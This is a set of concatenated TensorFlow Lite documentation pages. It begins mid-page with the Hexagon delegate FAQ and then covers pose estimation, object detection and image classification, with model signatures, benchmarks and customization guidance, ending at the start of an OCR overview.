interpreter->ModifyGraphWithDelegate(delegate.get());
// After usage of delegate.
TfLiteHexagonTearDown();  // Needed once at end of app/DSP usage.
```

## Add the shared library to your app

*   Create folder “app/src/main/jniLibs”, and create a directory for each target
    architecture. For example,
    *   ARM 64-bit: `app/src/main/jniLibs/arm64-v8a`
    *   ARM 32-bit: `app/src/main/jniLibs/armeabi-v7a`
*   Put your .so in the directory that match the architecture.

Note: If you're using App Bundle for publishing your Application, you might want
to set android.bundle.enableUncompressedNativeLibs=false in the
gradle.properties file.

## Feedback

For issues, please create a
[GitHub](https://github.com/tensorflow/tensorflow/issues/new?template=50-other-issues.md)
issue with all the necessary repro details, including the phone model and board
used (`adb shell getprop ro.product.device` and `adb shell getprop
ro.board.platform`).

## FAQ

*   Which ops are supported by the delegate?
    *   See the current list of
        [supported ops and constraints](https://github.com/tensorflow/tensorflow/blob/master/tensorflow/lite/delegates/hexagon/README.md)
*   How can I tell that the model is using the DSP when I enable the delegate?
    *   Two log messages will be printed when you enable the delegate - one to
        indicate if the delegate was created and another to indicate how many
        nodes are running using the delegate. \
        `Created TensorFlow Lite delegate for Hexagon.` \
        `Hexagon delegate: X nodes delegated out of Y nodes.`
*   Do I need all Ops in the model to be supported to run the delegate?
    *   No, the Model will be partitioned into subgraphs based on the supported
        ops. Any unsupported ops will run on the CPU.
*   How can I build the Hexagon delegate AAR from source?
    *   Use `bazel build -c opt --config=android_arm64
        tensorflow/lite/delegates/hexagon/java:tensorflow-lite-hexagon`.
*   Why does Hexagon delegate fail to initialize although my Android device has
    a supported SoC?
    *   Verify if your device indeed has a supported SoC. Run `adb shell cat
        /proc/cpuinfo | grep Hardware` and see if it returns something like
        "Hardware : Qualcomm Technologies, Inc MSMXXXX".
    *   Some phone manufacturers use different SoCs for the same phone model.
        Therefore, Hexagon delegate may only work on some but not all devices of
        the same phone model.
    *   Some phone manufactures intentionally restrict the use of Hexagon DSP
        from non-system Android apps, making the Hexagon delegate unable to
        work.
*   My phone has locked DSP access. I rooted the phone and still can't run the
    delegate, what to do ?
    *   Make sure to disable SELinux enforce by running `adb shell setenforce 0`
# Pose estimation


Pose estimation is the task of using an ML model to estimate the pose of a
person from an image or a video by estimating the spatial locations of key body
joints (keypoints).

## Get started

If you are new to TensorFlow Lite and are working with Android or iOS, explore
the following example applications that can help you get started.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/pose_estimation/android">
Android example</a>
<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/pose_estimation/ios">
iOS example</a>

If you are familiar with the
[TensorFlow Lite APIs](https://www.tensorflow.org/api_docs/python/tf/lite),
download the starter MoveNet pose estimation model and supporting files.

<a class="button button-primary" href="https://tfhub.dev/s?q=movenet"> Download
starter model</a>

If you want to try pose estimation on a web browser, check out the
<a href="https://storage.googleapis.com/tfjs-models/demos/pose-detection/index.html?model=movenet">
TensorFlow JS Demo</a>.

## Model description

### How it works

Pose estimation refers to computer vision techniques that detect human figures
in images and videos, so that one could determine, for example, where someone’s
elbow shows up in an image. It is important to be aware of the fact that pose
estimation merely estimates where key body joints are and does not recognize who
is in an image or video.

The pose estimation models takes a processed camera image as the input and
outputs information about keypoints. The keypoints detected are indexed by a
part ID, with a confidence score between 0.0 and 1.0. The confidence score
indicates the probability that a keypoint exists in that position.

We provides reference implementation of two TensorFlow Lite pose estimation
models:

*   MoveNet: the state-of-the-art pose estimation model available in two
    flavors: Lighting and Thunder. See a comparison between these two in the
    section below.
*   PoseNet: the previous generation pose estimation model released in 2017.

The various body joints detected by the pose estimation model are tabulated
below:

<table style="width: 30%;">
  <thead>
    <tr>
      <th>Id</th>
      <th>Part</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>0</td>
      <td>nose</td>
    </tr>
    <tr>
      <td>1</td>
      <td>leftEye</td>
    </tr>
    <tr>
      <td>2</td>
      <td>rightEye</td>
    </tr>
    <tr>
      <td>3</td>
      <td>leftEar</td>
    </tr>
    <tr>
      <td>4</td>
      <td>rightEar</td>
    </tr>
    <tr>
      <td>5</td>
      <td>leftShoulder</td>
    </tr>
    <tr>
      <td>6</td>
      <td>rightShoulder</td>
    </tr>
    <tr>
      <td>7</td>
      <td>leftElbow</td>
    </tr>
    <tr>
      <td>8</td>
      <td>rightElbow</td>
    </tr>
    <tr>
      <td>9</td>
      <td>leftWrist</td>
    </tr>
    <tr>
      <td>10</td>
      <td>rightWrist</td>
    </tr>
    <tr>
      <td>11</td>
      <td>leftHip</td>
    </tr>
    <tr>
      <td>12</td>
      <td>rightHip</td>
    </tr>
    <tr>
      <td>13</td>
      <td>leftKnee</td>
    </tr>
    <tr>
      <td>14</td>
      <td>rightKnee</td>
    </tr>
    <tr>
      <td>15</td>
      <td>leftAnkle</td>
    </tr>
    <tr>
      <td>16</td>
      <td>rightAnkle</td>
    </tr>
  </tbody>
</table>

An example output is shown below:


## Performance benchmarks

MoveNet is available in two flavors:

*   MoveNet.Lightning is smaller, faster but less accurate than the Thunder
    version. It can run in realtime on modern smartphones.
*   MoveNet.Thunder is the more accurate version but also larger and slower than
    Lightning. It is useful for the use cases that require higher accuracy.

MoveNet outperforms PoseNet on a variety of datasets, especially in images with
fitness action images. Therefore, we recommend using MoveNet over PoseNet.

Performance benchmark numbers are generated with the tool
[described here](../../performance/measurement). Accuracy (mAP) numbers are
measured on a subset of the [COCO dataset](https://cocodataset.org/#home) in
which we filter and crop each image to contain only one person .

<table>
<thead>
  <tr>
    <th rowspan="2">Model</th>
    <th rowspan="2">Size (MB)</th>
    <th rowspan="2">mAP</th>
    <th colspan="3">Latency (ms)</th>
  </tr>
  <tr>
    <td>Pixel 5 - CPU 4 threads</td>
    <td>Pixel 5 - GPU</td>
    <td>Raspberry Pi 4 - CPU 4 threads</td>
  </tr>
</thead>
<tbody>
  <tr>
    <td>
      <a href="https://tfhub.dev/google/lite-model/movenet/singlepose/thunder/tflite/float16/4">MoveNet.Thunder (FP16 quantized)</a>
    </td>
    <td>12.6MB</td>
    <td>72.0</td>
    <td>155ms</td>
    <td>45ms</td>
    <td>594ms</td>
  </tr>
  <tr>
    <td>
      <a href="https://tfhub.dev/google/lite-model/movenet/singlepose/thunder/tflite/int8/4">MoveNet.Thunder (INT8 quantized)</a>
    </td>
    <td>7.1MB</td>
    <td>68.9</td>
    <td>100ms</td>
    <td>52ms</td>
    <td>251ms</td>
  </tr>
  <tr>
    <td>
      <a href="https://tfhub.dev/google/lite-model/movenet/singlepose/lightning/tflite/float16/4">MoveNet.Lightning (FP16 quantized)</a>
    </td>
    <td>4.8MB</td>
    <td>63.0</td>
    <td>60ms</td>
    <td>25ms</td>
    <td>186ms</td>
  </tr>
  <tr>
    <td>
      <a href="https://tfhub.dev/google/lite-model/movenet/singlepose/lightning/tflite/int8/4">MoveNet.Lightning (INT8 quantized)</a>
    </td>
    <td>2.9MB</td>
    <td>57.4</td>
    <td>52ms</td>
    <td>28ms</td>
    <td>95ms</td>
  </tr>
  <tr>
    <td>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/posenet_mobilenet_v1_100_257x257_multi_kpt_stripped.tflite">PoseNet(MobileNetV1 backbone, FP32)</a>
    </td>
    <td>13.3MB</td>
    <td>45.6</td>
    <td>80ms</td>
    <td>40ms</td>
    <td>338ms</td>
  </tr>
</tbody>
</table>

## Further reading and resources

*   Check out this
    [blog post](https://blog.tensorflow.org/2021/08/pose-estimation-and-classification-on-edge-devices-with-MoveNet-and-TensorFlow-Lite.html)
    to learn more about pose estimation using MoveNet and TensorFlow Lite.
*   Check out this
    [blog post](https://blog.tensorflow.org/2021/05/next-generation-pose-detection-with-movenet-and-tensorflowjs.html)
    to learn more about pose estimation on the web.
*   Check out this [tutorial](https://www.tensorflow.org/hub/tutorials/movenet)
    to learn about running MoveNet on Python using a model from TensorFlow Hub.
*   Coral/EdgeTPU can make pose estimation run much faster on IoT devices. See
    [EdgeTPU-optimized models](https://coral.ai/models/pose-estimation/) for
    more details.
*   Read the PoseNet paper [here](https://arxiv.org/abs/1803.08225)

Also, check out these use cases of pose estimation.

<ul>
  <li><a href="https://vimeo.com/128375543">‘PomPom Mirror’</a></li>
  <li><a href="https://youtu.be/I5__9hq-yas">Amazing Art Installation Turns You Into A Bird | Chris Milk "The Treachery of Sanctuary"</a></li>
  <li><a href="https://vimeo.com/34824490">Puppet Parade - Interactive Kinect Puppets</a></li>
  <li><a href="https://vimeo.com/2892576">Messa di Voce (Performance), Excerpts</a></li>
  <li><a href="https://www.instagram.com/p/BbkKLiegrTR/">Augmented reality</a></li>
  <li><a href="https://www.instagram.com/p/Bg1EgOihgyh/">Interactive animation</a></li>
  <li><a href="https://www.runnersneed.com/expert-advice/gear-guides/gait-analysis.html">Gait analysis</a></li>
</ul>
# Object detection

Given an image or a video stream, an object detection model can identify which
of a known set of objects might be present and provide information about their
positions within the image.

For example, this screenshot of the <a href="#get_started">example
application</a> shows how two objects have been recognized and their positions
annotated:


Note: (1) To integrate an existing model, try
[TensorFlow Lite Task Library](https://www.tensorflow.org/lite/inference_with_metadata/task_library/object_detector).
(2) To customize a model, try
[TensorFlow Lite Model Maker](https://www.tensorflow.org/lite/guide/model_maker).

## Get started

To learn how to use object detection in a mobile app, explore the
<a href="#example_applications_and_guides">Example applications and guides</a>.

If you are using a platform other than Android or iOS, or if you are already
familiar with the
<a href="https://www.tensorflow.org/api_docs/python/tf/lite">TensorFlow Lite
APIs</a>, you can download our starter object detection model and the
accompanying labels.

<a class="button button-primary" href="https://tfhub.dev/tensorflow/lite-model/ssd_mobilenet_v1/1/metadata/1?lite-format=tflite">Download
starter model with Metadata</a>

For more information about Metadata and associated fields (eg: `labels.txt`) see
<a href="https://www.tensorflow.org/lite/convert/metadata#read_the_metadata_from_models">Read
the metadata from models</a>

If you want to train a custom detection model for your own task, see
<a href="#model-customization">Model customization</a>.

For the following use cases, you should use a different type of model:

<ul>
  <li>Predicting which single label the image most likely represents (see <a href="../image_classification/overview.md">image classification</a>)</li>
  <li>Predicting the composition of an image, for example subject versus background (see <a href="../segmentation/overview.md">segmentation</a>)</li>
</ul>

### Example applications and guides

If you are new to TensorFlow Lite and are working with Android or iOS, we
recommend exploring the following example applications that can help you get
started.

#### Android

You can leverage the out-of-box API from
[TensorFlow Lite Task Library](../../inference_with_metadata/task_library/object_detector)
to integrate object detection models in just a few lines of code. You can also
build your own custom inference pipeline using the
[TensorFlow Lite Interpreter Java API](../../guide/inference#load_and_run_a_model_in_java).

The Android example below demonstrates the implementation for both methods as
[lib_task_api](https://github.com/tensorflow/examples/tree/master/lite/examples/object_detection/android/lib_task_api)
and
[lib_interpreter](https://github.com/tensorflow/examples/tree/master/lite/examples/object_detection/android/lib_interpreter),
respectively.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/object_detection/android">View
Android example</a>

#### iOS

You can integrate the model using the
[TensorFlow Lite Interpreter Swift API](../../guide/inference#load_and_run_a_model_in_swift).
See the iOS example below.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/object_detection/ios">View
iOS example</a>

## Model description

This section describes the signature for
[Single-Shot Detector](https://arxiv.org/abs/1512.02325) models converted to
TensorFlow Lite from the
[TensorFlow Object Detection API](https://github.com/tensorflow/models/blob/master/research/object_detection/).

An object detection model is trained to detect the presence and location of
multiple classes of objects. For example, a model might be trained with images
that contain various pieces of fruit, along with a _label_ that specifies the
class of fruit they represent (e.g. an apple, a banana, or a strawberry), and
data specifying where each object appears in the image.

When an image is subsequently provided to the model, it will output a list of
the objects it detects, the location of a bounding box that contains each
object, and a score that indicates the confidence that detection was correct.

### Input Signature

The model takes an image as input.

Lets assume the expected image is 300x300 pixels, with three channels (red,
blue, and green) per pixel. This should be fed to the model as a flattened
buffer of 270,000 byte values (300x300x3). If the model is
<a href="../../performance/post_training_quantization.md">quantized</a>, each
value should be a single byte representing a value between 0 and 255.

You can take a look at our
[example app code](https://github.com/tensorflow/examples/tree/master/lite/examples/object_detection/android)
to understand how to do this pre-processing on Android.

### Output Signature

The model outputs four arrays, mapped to the indices 0-4. Arrays 0, 1, and 2
describe `N` detected objects, with one element in each array corresponding to
each object.

<table>
  <thead>
    <tr>
      <th>Index</th>
      <th>Name</th>
      <th>Description</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>0</td>
      <td>Locations</td>
      <td>Multidimensional array of [N][4] floating point values between 0 and 1, the inner arrays representing bounding boxes in the form [top, left, bottom, right]</td>
    </tr>
    <tr>
      <td>1</td>
      <td>Classes</td>
      <td>Array of N integers (output as floating point values) each indicating the index of a class label from the labels file</td>
    </tr>
    <tr>
      <td>2</td>
      <td>Scores</td>
      <td>Array of N floating point values between 0 and 1 representing probability that a class was detected</td>
    </tr>
    <tr>
      <td>3</td>
      <td>Number of detections</td>
      <td>Integer value of N</td>
    </tr>
  </tbody>
</table>

NOTE: The number of results (10 in the above case) is a parameter set while
exporting the detection model to TensorFlow Lite. See
<a href="#model-customization">Model customization</a> for more details.

For example, imagine a model has been trained to detect apples, bananas, and
strawberries. When provided an image, it will output a set number of detection
results - in this example, 5.

<table style="width: 60%;">
  <thead>
    <tr>
      <th>Class</th>
      <th>Score</th>
      <th>Location</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Apple</td>
      <td>0.92</td>
      <td>[18, 21, 57, 63]</td>
    </tr>
    <tr>
      <td>Banana</td>
      <td>0.88</td>
      <td>[100, 30, 180, 150]</td>
    </tr>
    <tr>
      <td>Strawberry</td>
      <td>0.87</td>
      <td>[7, 82, 89, 163] </td>
    </tr>
    <tr>
      <td>Banana</td>
      <td>0.23</td>
      <td>[42, 66, 57, 83]</td>
    </tr>
    <tr>
      <td>Apple</td>
      <td>0.11</td>
      <td>[6, 42, 31, 58]</td>
    </tr>
  </tbody>
</table>

#### Confidence score

To interpret these results, we can look at the score and the location for each
detected object. The score is a number between 0 and 1 that indicates confidence
that the object was genuinely detected. The closer the number is to 1, the more
confident the model is.

Depending on your application, you can decide a cut-off threshold below which
you will discard detection results. For the current example, a sensible cut-off
is a score of 0.5 (meaning a 50% probability that the detection is valid). In
that case, the last two objects in the array would be ignored because those
confidence scores are below 0.5:

<table style="width: 60%;">
  <thead>
    <tr>
      <th>Class</th>
      <th>Score</th>
      <th>Location</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Apple</td>
      <td>0.92</td>
      <td>[18, 21, 57, 63]</td>
    </tr>
    <tr>
      <td>Banana</td>
      <td>0.88</td>
      <td>[100, 30, 180, 150]</td>
    </tr>
    <tr>
      <td>Strawberry</td>
      <td>0.87</td>
      <td>[7, 82, 89, 163] </td>
    </tr>
    <tr>
      <td style="background-color: #e9cecc; text-decoration-line: line-through;">Banana</td>
      <td style="background-color: #e9cecc; text-decoration-line: line-through;">0.23</td>
      <td style="background-color: #e9cecc; text-decoration-line: line-through;">[42, 66, 57, 83]</td>
    </tr>
    <tr>
      <td style="background-color: #e9cecc; text-decoration-line: line-through;">Apple</td>
      <td style="background-color: #e9cecc; text-decoration-line: line-through;">0.11</td>
      <td style="background-color: #e9cecc; text-decoration-line: line-through;">[6, 42, 31, 58]</td>
    </tr>
  </tbody>
</table>

The cut-off you use should be based on whether you are more comfortable with
false positives (objects that are wrongly identified, or areas of the image that
are erroneously identified as objects when they are not), or false negatives
(genuine objects that are missed because their confidence was low).

For example, in the following image, a pear (which is not an object that the
model was trained to detect) was misidentified as a "person". This is an example
of a false positive that could be ignored by selecting an appropriate cut-off.
In this case, a cut-off of 0.6 (or 60%) would comfortably exclude the false
positive.


#### Location

For each detected object, the model will return an array of four numbers
representing a bounding rectangle that surrounds its position. For the starter
model provided, the numbers are ordered as follows:

<table style="width: 50%; margin: 0 auto;">
  <tbody>
    <tr style="border-top: none;">
      <td>[</td>
      <td>top,</td>
      <td>left,</td>
      <td>bottom,</td>
      <td>right</td>
      <td>]</td>
    </tr>
  </tbody>
</table>

The top value represents the distance of the rectangle’s top edge from the top
of the image, in pixels. The left value represents the left edge’s distance from
the left of the input image. The other values represent the bottom and right
edges in a similar manner.

Note: Object detection models accept input images of a specific size. This is likely to be different from the size of the raw image captured by your device’s camera, and you will have to write code to crop and scale your raw image to fit the model’s input size (there are examples of this in our <a href="#get_started">example applications</a>).<br /><br />The pixel values output by the model refer to the position in the cropped and scaled image, so you must scale them to fit the raw image in order to interpret them correctly.

## Performance benchmarks

Performance benchmark numbers for our
<a class="button button-primary" href="https://tfhub.dev/tensorflow/lite-model/ssd_mobilenet_v1/1/metadata/1?lite-format=tflite">starter
model</a> are generated with the tool
[described here](https://www.tensorflow.org/lite/performance/benchmarks).

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Model size </th>
      <th>Device </th>
      <th>GPU</th>
      <th>CPU</th>
    </tr>
  </thead>
  <tr>
    <td rowspan = 3>
      <a href="https://tfhub.dev/tensorflow/lite-model/ssd_mobilenet_v1/1/metadata/1?lite-format=tflite">COCO SSD MobileNet v1</a>
    </td>
    <td rowspan = 3>
      27 Mb
    </td>
    <td>Pixel 3 (Android 10) </td>
    <td>22ms</td>
    <td>46ms*</td>
  </tr>
   <tr>
     <td>Pixel 4 (Android 10) </td>
    <td>20ms</td>
    <td>29ms*</td>
  </tr>
   <tr>
     <td>iPhone XS (iOS 12.4.1) </td>
     <td>7.6ms</td>
    <td>11ms** </td>
  </tr>
</table>

\* 4 threads used.

\*\* 2 threads used on iPhone for the best performance result.

## Model Customization

### Pre-trained models

Mobile-optimized detection models with a variety of latency and precision
characteristics can be found in the
[Detection Zoo](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/tf1_detection_zoo.md#mobile-models).
Each one of them follows the input and output signatures described in the
following sections.

Most of the download zips contain a `model.tflite` file. If there isn't one, a
TensorFlow Lite flatbuffer can be generated using
[these instructions](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/running_on_mobile_tensorflowlite.md).
SSD models from the
[TF2 Object Detection Zoo](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/tf2_detection_zoo.md)
can also be converted to TensorFlow Lite using the instructions
[here](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/running_on_mobile_tf2.md).
It is important to note that detection models cannot be converted directly using
the [TensorFlow Lite Converter](https://www.tensorflow.org/lite/convert), since
they require an intermediate step of generating a mobile-friendly source model.
The scripts linked above perform this step.

Both the
[TF1](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/running_on_mobile_tensorflowlite.md)
&
[TF2](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/running_on_mobile_tensorflowlite.md)
exporting scripts have parameters that can enable a larger number of output
objects or slower, more-accurate post processing. Please use `--help` with the
scripts to see an exhaustive list of supported arguments.

> Currently, on-device inference is only optimized with SSD models. Better
> support for other architectures like CenterNet and EfficientDet is being
> investigated.

### How to choose a model to customize?

Each model comes with its own precision (quantified by mAP value) and latency
characteristics. You should choose a model that works the best for your use-case
and intended hardware. For example, the
[Edge TPU](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/tf1_detection_zoo.md#pixel4-edge-tpu-models)
models are ideal for inference on Google's Edge TPU on Pixel 4.

You can use our
[benchmark tool](https://www.tensorflow.org/lite/performance/measurement) to
evaluate models and choose the most efficient option available.

## Fine-tuning models on custom data

The pre-trained models we provide are trained to detect 90 classes of objects.
For a full list of classes, see the labels file in the
<a href="https://tfhub.dev/tensorflow/lite-model/ssd_mobilenet_v1/1/metadata/1?lite-format=tflite">model
metadata</a>.

You can use a technique known as transfer learning to re-train a model to
recognize classes not in the original set. For example, you could re-train the
model to detect multiple types of vegetable, despite there only being one
vegetable in the original training data. To do this, you will need a set of
training images for each of the new labels you wish to train. The recommended
way is to use
[TensorFlow Lite Model Maker](https://www.tensorflow.org/lite/guide/model_maker)
library which simplifies the process of training a TensorFlow Lite model using
custom dataset, with a few lines of codes. It uses transfer learning to reduce
the amount of required training data and time. You can also learn from
[Few-shot detection Colab](https://github.com/tensorflow/models/blob/master/research/object_detection/colab_tutorials/eager_few_shot_od_training_tflite.ipynb)
as an example of fine-tuning a pre-trained model with few examples.

For fine-tuning with larger datasets, take a look at the these guides for
training your own models with the TensorFlow Object Detection API:
[TF1](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/tf1_training_and_evaluation.md),
[TF2](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/tf2_training_and_evaluation.md).
Once trained, they can be converted to a TFLite-friendly format with the
instructions here:
[TF1](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/running_on_mobile_tensorflowlite.md),
[TF2](https://github.com/tensorflow/models/blob/master/research/object_detection/g3doc/running_on_mobile_tensorflowlite.md)
# Image classification


The task of identifying what an image represents is called _image
classification_. An image classification model is trained to recognize various
classes of images. For example, you may train a model to recognize photos
representing three different types of animals: rabbits, hamsters, and dogs.
TensorFlow Lite provides optimized pre-trained models that you can deploy in
your mobile applications. Learn more about image classification using TensorFlow
[here](https://www.tensorflow.org/tutorials/images/classification).

The following image shows the output of the image classification model on
Android.


Note: (1) To integrate an existing model, try
[TensorFlow Lite Task Library](https://www.tensorflow.org/lite/inference_with_metadata/task_library/image_classifier).
(2) To customize a model, try
[TensorFlow Lite Model Maker](https://www.tensorflow.org/lite/tutorials/model_maker_image_classification).

## Get started

If you are new to TensorFlow Lite and are working with Android or iOS, it is
recommended you explore the following example applications that can help you get
started.

You can leverage the out-of-box API from
[TensorFlow Lite Task Library](../../inference_with_metadata/task_library/image_classifier)
to integrate image classification models in just a few lines of code. You can
also build your own custom inference pipeline using the
[TensorFlow Lite Support Library](../../inference_with_metadata/lite_support).

The Android example below demonstrates the implementation for both methods as
[lib_task_api](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android/lib_task_api)
and
[lib_support](https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android/lib_support),
respectively.

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android">View
Android example</a>

<a class="button button-primary" href="https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/ios">View
iOS example</a>

If you are using a platform other than Android/iOS, or if you are already
familiar with the
[TensorFlow Lite APIs](https://www.tensorflow.org/api_docs/python/tf/lite),
download the starter model and supporting files (if applicable).

<a class="button button-primary" href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/mobilenet_v1_1.0_224_quant_and_labels.zip">Download
starter model</a>

## Model description

### How it works

During training, an image classification model is fed images and their
associated _labels_. Each label is the name of a distinct concept, or class,
that the model will learn to recognize.

Given sufficient training data (often hundreds or thousands of images per
label), an image classification model can learn to predict whether new images
belong to any of the classes it has been trained on. This process of prediction
is called _inference_. Note that you can also use
[transfer learning](https://www.tensorflow.org/tutorials/images/transfer_learning)
to identify new classes of images by using a pre-existing model. Transfer
learning does not require a very large training dataset.

When you subsequently provide a new image as input to the model, it will output
the probabilities of the image representing each of the types of animal it was
trained on. An example output might be as follows:

<table style="width: 40%;">
  <thead>
    <tr>
      <th>Animal type</th>
      <th>Probability</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>Rabbit</td>
      <td>0.07</td>
    </tr>
    <tr>
      <td>Hamster</td>
      <td>0.02</td>
    </tr>
    <tr>
      <td style="background-color: #fcb66d;">Dog</td>
      <td style="background-color: #fcb66d;">0.91</td>
    </tr>
  </tbody>
</table>

Each number in the output corresponds to a label in the training data.
Associating the output with the three labels the model was trained on, you can
see that the model has predicted a high probability that the image represents a
dog.

You might notice that the sum of all the probabilities (for rabbit, hamster, and
dog) is equal to 1. This is a common type of output for models with multiple
classes (see
<a href="https://developers.google.com/machine-learning/crash-course/multi-class-neural-networks/softmax">Softmax</a>
for more information).

Note: Image classification can only tell you the probability that an image
represents one or more of the classes that the model was trained on. It cannot
tell you the position or identity of objects within the image. If you need to
identify objects and their positions within images, you should use an
<a href="../object_detection/overview.md">object detection</a> model.

<h4>Ambiguous results</h4>

Since the output probabilities will always sum to 1, if an image is not
confidently recognized as belonging to any of the classes the model was trained
on you may see the probability distributed throughout the labels without any one
value being significantly larger.

For example, the following might indicate an ambiguous result:

<table style="width: 40%;">
  <thead>
    <tr>
      <th>Label</th>
      <th>Probability</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>rabbit</td>
      <td>0.31</td>
    </tr>
    <tr>
      <td>hamster</td>
      <td>0.35</td>
    </tr>
    <tr>
      <td>dog</td>
      <td>0.34</td>
    </tr>
  </tbody>
</table>
If your model frequently returns ambiguous results, you may need a different,
more accurate model.

<h3>Choosing a model architecture</h3>

TensorFlow Lite provides you with a variety of image classification models which
are all trained on the original dataset. Model architectures like MobileNet,
Inception, and NASNet are available on the
<a href="../../guide/hosted_models.md">hosted models page</a>. To choose the best model for
your use case, you need to consider the individual architectures as well as some
of the tradeoffs between various models. Some of these model tradeoffs are based
on metrics such as performance, accuracy, and model size. For example, you might
need a faster model for building a bar code scanner while you might prefer a
slower, more accurate model for a medical imaging app.

Note that the <a href=https://www.tensorflow.org/lite/guide/hosted_models#image_classification>image classification models</a> provided accept varying sizes of input. For some models, this is indicated in the filename. For example, the Mobilenet_V1_1.0_224 model accepts an input of 224x224 pixels. All of the models require three color channels per pixel (red, green, and blue). Quantized models require 1 byte per channel, and float models require 4 bytes per channel. The <a href="https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/android/EXPLORE_THE_CODE.md">Android</a> and <a href="https://github.com/tensorflow/examples/tree/master/lite/examples/image_classification/ios/EXPLORE_THE_CODE.md">iOS</a> code samples demonstrate how to process full-sized camera images into the required format for each model.

<h3>Uses and limitations</h3>

The TensorFlow Lite image classification models are useful for single-label
classification; that is, predicting which single label the image is most likely to
represent. They are trained to recognize 1000 image classes. For a full list of
classes, see the labels file in the
<a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/mobilenet_v1_1.0_224_quant_and_labels.zip">model
zip</a>.

If you want to train a model to recognize new classes, see
<a href="#customize_model">Customize model</a>.

For the following use cases, you should use a different type of model:

<ul>
  <li>Predicting the type and position of one or more objects within an image (see <a href="../object_detection/overview.md">Object detection</a>)</li>
  <li>Predicting the composition of an image, for example subject versus background (see <a href="../segmentation/overview.md">Segmentation</a>)</li>
</ul>

Once you have the starter model running on your target device, you can
experiment with different models to find the optimal balance between
performance, accuracy, and model size.

<h3>Customize model</h3>

The pre-trained models provided are trained to recognize 1000 classes of images.
For a full list of classes, see the labels file in the
<a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/mobilenet_v1_1.0_224_quant_and_labels.zip">model
zip</a>.

You can also use transfer learning to re-train a model to
recognize classes not in the original set. For example, you could re-train the
model to distinguish between different species of tree, despite there being no
trees in the original training data. To do this, you will need a set of training
images for each of the new labels you wish to train.

Learn how to perform transfer learning with the
<a href="https://www.tensorflow.org/lite/tutorials/model_maker_image_classification">TFLite Model Maker</a>,
or in the
<a href="https://codelabs.developers.google.com/codelabs/recognize-flowers-with-tensorflow-on-android/index.html#0">Recognize
flowers with TensorFlow</a> codelab.

<h2>Performance benchmarks</h2>

Model performance is measured in terms of the amount of time it takes for a
model to run inference on a given piece of hardware. The lower the time, the faster
the model.

The performance you require depends on your application. Performance can be
important for applications like real-time video, where it may be important to
analyze each frame in the time before the next frame is drawn (e.g. inference
must be faster than 33ms to perform real-time inference on a 30fps video
stream).

The TensorFlow Lite quantized MobileNet models' performance range from 3.7ms to
80.3 ms.

Performance benchmark numbers are generated with the
<a href="https://www.tensorflow.org/lite/performance/benchmarks">benchmarking tool</a>.

<table>
  <thead>
    <tr>
      <th>Model Name</th>
      <th>Model size </th>
      <th>Device </th>
      <th>NNAPI</th>
      <th>CPU</th>
    </tr>
  </thead>
  <tr>
    <td rowspan = 3>
      <a href="https://storage.googleapis.com/download.tensorflow.org/models/tflite/mobilenet_v1_1.0_224_quant_and_labels.zip">Mobilenet_V1_1.0_224_quant</a>
    </td>
    <td rowspan = 3>
      4.3 Mb
    </td>
    <td>Pixel 3 (Android 10) </td>
    <td>6ms</td>
    <td>13ms*</td>
  </tr>
   <tr>
     <td>Pixel 4 (Android 10) </td>
    <td>3.3ms</td>
    <td>5ms*</td>
  </tr>
   <tr>
     <td>iPhone XS (iOS 12.4.1) </td>
     <td></td>
    <td>11ms** </td>
  </tr>
</table>

\* 4 threads used.

\*\* 2 threads used on iPhone for the best performance result.

### Model accuracy

Accuracy is measured in terms of how often the model correctly classifies an
image. For example, a model with a stated accuracy of 60% can be expected to
classify an image correctly an average of 60% of the time.

The [list of hosted models](../../guide/hosted_models.md) provides Top-1 and
Top-5 accuracy statistics. Top-1 refers to how often the correct label appears
as the label with the highest probability in the model’s output. Top-5 refers to
how often the correct label appears in the 5 highest probabilities in the
model’s output.

The TensorFlow Lite quantized MobileNet models’ Top-5 accuracy range from 64.4
to 89.9%.

### Model size

The size of a model on-disk varies with its performance and accuracy. Size may
be important for mobile development (where it might impact app download sizes)
or when working with hardware (where available storage might be limited).

The TensorFlow Lite quantized MobileNet models' sizes range from 0.5 to 3.4 MB.

## Further reading and resources

Use the following resources to learn more about concepts related to image
classification:

*   [Image classification using TensorFlow](https://www.tensorflow.org/tutorials/images/classification)
*   [Image classification with CNNs](https://www.tensorflow.org/tutorials/images/cnn)
*   [Transfer learning](https://www.tensorflow.org/tutorials/images/transfer_learning)
*   [Data augmentation](https://www.tensorflow.org/tutorials/images/data_augmentation)
# Optical character recognition (OCR)

Optical character recognition (OCR) is the process of recognizing characters
from images using computer vision and machine learning techniques. This
reference app demos how to use TensorFlow Lite to do OCR. It uses a combination
of
[text detection model](https://tfhub.dev/sayakpaul/lite-model/east-text-detector/fp16/1)
and a
[text recognition model](https://tfhub.dev/tulasiram58827/lite-model/keras-ocr/float16/2)
